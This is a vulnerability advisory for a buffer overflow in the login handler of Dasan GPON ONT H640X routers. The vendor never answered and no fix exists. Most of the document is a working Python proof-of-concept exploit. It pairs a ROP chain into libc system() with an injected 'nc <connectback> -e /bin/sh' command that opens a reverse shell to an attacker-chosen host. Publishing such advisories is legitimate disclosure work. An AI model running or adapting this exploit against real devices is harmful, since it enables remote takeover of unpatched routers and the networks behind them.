 ## Vulnerability Summary
The following advisory describes a buffer overflow that leads to remote code execution found in Dasan Networks GPON ONT WiFi Router H640X versions 12.02-01121 / 2.77p1-1124 / 3.03p2-1146

Dasan Networks GPON ONT WiFi Router “is indoor type ONT dedicated for FTTH (Fibre to the Home) or FTTP (Fiber to the Premises) deployments. That can work as simple Bridge or behave as Router/NAT. It’s cost-effective CPE that meets carrier-class requirement for Telcom industry and guarantee reliable service proven in the field.”

## Credit
An independent security researcher, TigerPuma (at) Fosec.vn, has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program

## Vendor response
We tried to contact Dasan since October 8 2017, repeated attempts to establish contact went unanswered. At this time there is no solution or workaround for this vulnerability.

## Vulnerability details
All cgi in Dasan web service are symbolic link of cgipage.cgi, and when client request, lighttpd will invoke the corresponding path.

The buffer overflow vulnerability found in function login_action which handler login request.

The function uses strcpy without check length of input from client request.

If we will look at the stack, we can see that we can trigger the buffer overflow and in the end to control the pc.

## Proof of Concept

```
import sys
import socket
import json
import time
import struct
import ssl

if len(sys.argv) != 4:
    print "Use: {} ip port connectback".format(sys.argv[0])
    sys.exit(1)

host = str(sys.argv[1])
port = int(sys.argv[2])

connectback = str(sys.argv[3])

buf = 1024
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
#sock.settimeout(10)

clientsocket = ssl.wrap_socket(sock)
#clientsocket = sock
clientsocket.connect((host, port))

addr_libc = 0x2ad0c000 # 0x2ad0e000 with H640DW

# rop1
rop1 = addr_libc + 0x00115d40       #addiu $a0,$sp,0x18 |  jalr  $s0
addr_rop1 = struct.pack(">i",rop1)
#rop2
system = addr_libc + 0x0003CC9C     #system
addr_system =  struct.pack(">i",system)

# execute command
command = "nc " + connectback + " -e /bin/sh;"

payload = "A"*(756 - 0x28) + addr_system + 'C'*(0x28-8) + addr_rop1 + ';'*24 + command

data = "action={}&txtUserId=a&button=Login&txtPassword=a&sle_Language=english\r\n".format(payload)

http_payload = """POST /cgi-bin/login_action.cgi HTTP/1.1\r\nHost: 192.168.1.100:8080\r\nUser-Agent: Mozilla/5.0\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\nAccept-Language: en-US,en;q=0.5\r\nAccept-Encoding: gzip, deflate\r\nReferer: https://192.168.1.100:8080/cgi-bin/login.cgi\r\nConnection: keep-alive\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: {}\r\n\r\n{}""".format(len(data),data)

print http_payload

clientsocket.send(http_payload)

respond_raw = clientsocket.recv(buf).strip()

print respond_raw

respond_raw = clientsocket.recv(buf).strip()

print respond_raw
respond_raw = clientsocket.recv(buf).strip()

print respond_raw

clientsocket.close()
```